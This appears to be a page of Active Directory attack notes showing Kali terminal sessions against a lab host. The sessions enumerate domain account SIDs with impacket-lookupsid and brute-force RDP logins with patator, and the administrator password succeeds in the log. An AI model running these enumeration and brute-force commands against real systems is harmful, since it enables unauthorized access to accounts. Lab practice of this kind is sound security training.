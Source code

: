 
## impacket-lookupsid

	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ /usr/bin/impacket-lookupsid valhalla/thor:Pass123\!@192.168.200.110
	Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

	[*] Brute forcing SIDs at 192.168.200.110
	[*] StringBinding ncacn_np:192.168.200.110[\pipe\lsarpc]
	[*] Domain SID is: S-1-5-21-3401829504-2746700306-4210517594
	500: THOR\Administrator (SidTypeUser)
	501: THOR\Guest (SidTypeUser)
	513: THOR\None (SidTypeGroup)
	1000: THOR\win7 (SidTypeUser)


# Bruteforce

## Rdp Brute Force

brute force with less privilege

	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ patator rdp_login host=192.168.200.110 user="testuser" password=FILE0 0=pword.txt          
	11:51:29 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-08-19 11:51 EDT
	11:51:29 patator    INFO -                                                                              
	11:51:29 patator    INFO - code  size    time | candidate                          |   num | mesg
	11:51:29 patator    INFO - -----------------------------------------------------------------------------
	11:51:30 patator    INFO - 132   32     0.607 | admin                              |     1 | ERRCONNECT_AUTHENTICATION_FAILED
	11:51:30 patator    INFO - 132   32     0.609 | password                           |     2 | ERRCONNECT_AUTHENTICATION_FAILED
	11:51:30 patator    INFO - 132   32     0.622 | s3cr3t                             |     3 | ERRCONNECT_AUTHENTICATION_FAILED
	11:51:30 patator    INFO - 132   32     0.648 | 12345                              |     4 | ERRCONNECT_AUTHENTICATION_FAILED
	11:51:30 patator    INFO - 131   38     1.434 | Pass123!                           |     5 | ERRINFO_SERVER_INSUFFICIENT_PRIVILEGES
	11:51:31 patator    INFO - Hits/Done/Skip/Fail/Size: 5/5/0/0/5, Avg: 3 r/s, Time: 0h 0m 1s


Brute force with privilege account


	┌──(kali㉿kali)-[~/Desktop/ADAbuse]
	└─$ patator rdp_login host=192.168.200.110 user="administrator" password=FILE0 0=pword.txt
	11:51:16 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-08-19 11:51 EDT
	11:51:17 patator    INFO -                                                                              
	11:51:17 patator    INFO - code  size    time | candidate                          |   num | mesg
	11:51:17 patator    INFO - -----------------------------------------------------------------------------
	11:51:17 patator    INFO - 132   32     0.639 | admin                              |     1 | ERRCONNECT_AUTHENTICATION_FAILED
	11:51:17 patator    INFO - 132   32     0.648 | password                           |     2 | ERRCONNECT_AUTHENTICATION_FAILED
	11:51:17 patator    INFO - 132   32     0.647 | s3cr3t                             |     3 | ERRCONNECT_AUTHENTICATION_FAILED
	11:51:17 patator    INFO - 132   32     0.653 | 12345                              |     4 | ERRCONNECT_AUTHENTICATION_FAILED
	11:51:18 patator    INFO - 0     2      1.566 | Pass123!                           |     5 | OK
	11:51:19 patator    INFO - Hits/Done/Skip/Fail/Size: 5/5/0/0/5, Avg: 2 r/s, Time: 0h 0m 2s
